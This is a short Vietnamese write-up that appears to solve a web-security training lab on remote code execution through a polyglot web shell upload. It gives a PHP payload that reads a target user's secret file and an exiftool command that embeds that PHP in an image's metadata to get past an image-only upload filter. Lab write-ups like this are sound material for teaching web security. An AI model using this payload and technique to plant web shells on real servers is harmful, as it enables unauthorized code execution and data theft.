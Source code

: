 ## Remote code execution via polyglot web shell upload

1. Sau khi đăng nhập, upload thử file ``payload.php`` có nội dung
- ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

2. Nhận thấy máy chủ đã chặn thành công các tệp tải lên không phải là hình ảnh ngay cả khi sử dụng những kỹ thuật đã sử dụng ở những bài trước.

3. Tạo một tệp polyglot PHP/JPG có chứa payload PHP trong nó. 
- ```exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" payload.png -o polyglot.php```

4. Upload thành công ``polyglot.php`` file -> Truy cập vào path ``/files/avatars/polyglot.php`` nhận được mã nhị phân hình ảnh. Tìm điểm vị trí ``START`` và ``END`` để xác định secret key của Carlos.

![Img1](\asset/../img/done.png)